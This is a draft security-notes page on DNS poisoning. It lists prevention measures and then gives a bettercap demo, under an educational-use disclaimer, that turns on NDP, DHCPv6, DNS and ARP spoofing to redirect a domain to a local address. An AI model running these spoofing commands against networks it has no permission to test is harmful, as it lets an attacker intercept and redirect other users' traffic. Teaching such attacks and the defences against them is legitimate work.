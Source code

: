 ```yaml
---
title: "DNS Poisoning - Draft"
weight: 700
date: 2024-06-15T01:47:46+07:00
draft: true
---
```


# DNS Poisoning Attack

- A type of MitM attack


## Prevention

- Use Secure DNS: Configure DNS servers to use DNSSEC (Domain Name System Security Extensions), which adds cryptographic signatures to DNS records
- Enable HTTPS Everywhere: Even if DNS is poisoned, HTTPS with valid certificates will warn users when a site is untrusted
- Avoid Public Wi-Fi: Public networks are more susceptible to DNS poisoning attacks
- Set Trusted DNS Servers: Use reliable DNS resolvers like Google DNS (8.8.8.8) or Cloudflare (1.1.1.1)
- Monitor and Update Systems: Regularly patch DNS servers and network devices to address vulnerabilities
- Use a VPN: Encrypt traffic, bypassing rogue DNS responses on compromised networks

## Demo

{{<hint danger>}}
**DISCLAIMER**: This demo is for educational purposes only. The techniques should only be tested on systems you own or have explicit permission to analyze. Misuse of this information is unethical, may violate the law, and could lead to serious consequences. The author takes no responsibility for any damages or misuse arising from this content
{{</hint>}}

```sh

set ndp.spoof.neighbour fe80::53a:d4db:13e9:b774
set ndp.spoof.targets 2001:ee0:4f51:2ed0:295c:1995:43bf:3e1b,2001:ee0:4f51:2ed0:c60d:3bd1:19b6:facb

2001:ee0:4f51:2ed0:ed4b:6d8:6bd0:b97f

set dns.spoof.domains mnptt.io.vn
set dns.spoof.address 192.168.1.17

set dhcp6.spoof.domains mnptt.io.vn

set arp.spoof.targets a4:34:d9:89:a0:58

ndp.spoof on
dhcp6.spoof on
dns.spoof on
arp.spoof on

```

## References

- Bettercap: [ndp.spoof (IPv6)](https://www.bettercap.org/modules/ethernet/spoofers/ndp.spoof/)
- Bettercap: [dhcp6.spoof](https://www.bettercap.org/modules/ethernet/spoofers/dhcp6.spoof/)
- Bettercap: [dns.spoof](https://www.bettercap.org/modules/ethernet/spoofers/dns.spoof/)
- Bettercap: [arp.spoof](https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/)